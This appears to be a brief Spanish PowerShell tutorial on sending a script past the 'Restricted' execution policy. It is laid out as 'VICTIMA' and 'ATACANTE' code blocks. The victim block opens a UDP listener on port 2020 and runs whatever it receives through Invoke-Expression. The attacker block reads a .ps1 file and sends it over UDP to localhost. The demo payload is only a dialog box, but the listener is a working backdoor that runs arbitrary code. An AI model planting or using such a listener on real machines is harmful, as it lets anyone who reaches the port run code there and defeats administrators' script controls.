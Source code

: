 ## TRANSMITIR FORMULARIO CON POLITICA DE SEGURIDAD RESTRICTED

 ACTIVAMOS LAS POLÍTICAS DE SEGURIDAD
 
```POWERSHELL
set-executionpolicy restricted 
```
Y CREAMOS EL FORMULARIO EN UN ARCHIVO .PS1 (TODO EN UNA LINEA Y SEPARAMOS LAS LINEAS CON ";")

```POWERSHELL
using assembly System.Windows.Forms;using namespace System.Windows.Forms;$form = [Form] @{Text = 'Queipo'};$button = [Button] @{Text = 'Pulsa que yo te aviso'; Dock = 'Fill'};$form.Controls.Add($button);$form.ShowDialog()
```


### VICTIMA

```POWERSHELL
$port=2020
$endpoint = new-object System.Net.IPEndPoint ([IPAddress]::Any,$port)
$udpclient=new-Object System.Net.Sockets.UdpClient $port
$content=$udpclient.Receive([ref]$endpoint)
$reci= [Text.Encoding]::ASCII.GetString($content)
$udpclient.Dispose()
$reci | iex
```

### ATACANTE

```POWERSHELL
$txt= get-content formulario.ps1
$port=2020
$endpoint = new-object System.Net.IPEndPoint ([IPAddress]::Loopback,$port)
$udpclient=new-Object System.Net.Sockets.UdpClient
$b=[Text.Encoding]::ASCII.GetBytes($txt)
$bytesSent=$udpclient.Send($b,$b.length,$endpoint)
$udpclient.Close()
```

